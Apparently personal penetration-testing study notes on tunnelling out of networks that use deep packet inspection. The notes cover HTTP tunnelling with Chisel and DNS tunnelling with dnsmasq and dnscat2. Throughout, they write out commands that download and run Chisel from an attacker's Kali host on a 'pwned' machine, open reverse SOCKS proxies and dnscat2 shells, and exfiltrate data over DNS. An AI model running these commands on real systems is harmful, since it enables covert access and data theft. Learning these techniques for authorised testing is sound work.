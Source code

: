 ```yaml
---
layout: blank
pagetitle: Tunneling through Deep Packet Inspection
---
```


## HTTP Tunneling Theory/Practice

**HTTP Tunneling Fundamentals**
- Useful when all you have is egress HTTP traffic and no useful inbound ports
- We basically set up a server on kali and use egress traffic from the pwned machine to create an HTTP tunnel allowing inbound commands
- *Chisel* is a good tool for encapsulating data within HTTP
	- Run a server on Kali, client on pwned machine with internal access
		- On Kali: `sudo apt install chisel`, then copy `/usr/bin/chisel` into `/var/www/html` and start apache to make the file available (or just use python???)
		- Can view all traffic to this port with `sudo tcpdump -nvvvXi tun0 tcp port {port}`
	- `chisel server --port {port} --reverse` on kali to run the server
	- `wget {kali_ip}/chisel -O /tmp/chisel && chmod +x /tmp/chisel` for running the Chisel client on the linux target
		- `chisel client {kali_IP}:{kali_port} R:socks > /dev/null 2>&1 &`
	- Then, pass commands with `ssh -o Proxycommand='ncat --proxy-type socks5 --proxy 127.0.0.1:{port_given_by_chisel_(1080)} %h %p' {user}@{internal_IP_1hop}`
		- Need to install `ncat` on kali first
	- Can also be used on Windows
		- From meterpreter, `upload chisel.exe C:\\Users\\{user}\\chisel.exe`
- Can be combined with proxychains
	- Put the socks5 proxy port (from Chisel) in proxychains

## DNS Tunneling Theory/Practice

**DNS Tunneling Fundamentals**
- Register a name server that can communicate with all other nameservers
- Run `sudo dnsmasq -C dnsmasq.conf -d` on the pwned machine that other pwned machines refer to for dns info
	-  `dnsmasq.conf` needs to have `no-resolv`, `no-hosts`, `auth-zone=feline.corp`, and `auth-server=feline.corp` all on newlines
	- -C uses a config file, and -d means no-daemon mode so we can kill it
- On pwned machine, check DNS resolution with `resolvectl status`
	- Can then run something like `nslookup -type=txt www.feline.corp`, as the 2nd pwned machine will look to the 1st for name records and return exfiltrated data
- To view exfiltrated data on DNS server:
	- `sudo tcpdump -i {network interface (like ens192)} udp port 53`
	- `nslookup garbage.{owned_domain}` on pwned machine to test
- Since everything needs to look up domains, it doesn't matter how deep the pwned machine is in the internal network
- Getting data back into the network:
	- Add TXT records to `dnsmasq.conf` with:
		- `txt-record=www.{domain}, {arbitrary data here}`
		- Then restart the server (`sudo dnsmasq.conf -C dnsmasq.conf -d`)

**DNS Tunneling with dnscat2**
- `dnscat2` runs on an authoritative name server for a domain on a pwned nameserver, queried by pwned machines
- `dnscat2-server {domain}` to run, making it listen on all interfaces on udp port 53
	- Similar to above, the domain needs to be specified in `~/dns_tunneling/dnsmasq.conf`
- Then, on client, simply run `dnscat {domain}` to get a shell
- Tunneling:
	- Run `window -i 1` to be able to run commands in the window
	- Once we have a shell, we can use the `listen` command to do a local port forward
	- `listen 127.0.0.1:{inbound_port} {internal_IP}:{desired_port}` 
		- This listens on `inbound_port` on the loopback interface (e.g. only localhost)
		- If we want to listen everywhere, just use `0.0.0.0`
	- Then, use it by simply accessing the inbound port on kali localhost
		- Example: `nmap -p {inbound_port} localhost`